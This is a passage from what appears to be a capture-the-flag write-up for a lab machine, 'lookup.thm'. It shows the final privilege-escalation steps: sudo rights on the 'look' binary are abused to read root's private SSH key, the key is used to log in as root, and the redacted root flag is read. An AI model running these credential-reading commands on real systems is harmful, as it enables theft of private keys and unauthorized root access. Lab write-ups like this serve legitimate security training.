 #### Command:
```bash
LFILE=/root/.ssh/id_rsa
sudo look '' "$LFILE"
```

This grants us the root user's private SSH key.

#### Logging In as Root:
```bash
ssh -i /tmp/id_rsa root@lookup.thm
```

#### Retrieving Root Flag:
```bash
cat /root/root.txt
{REDACTED}
```




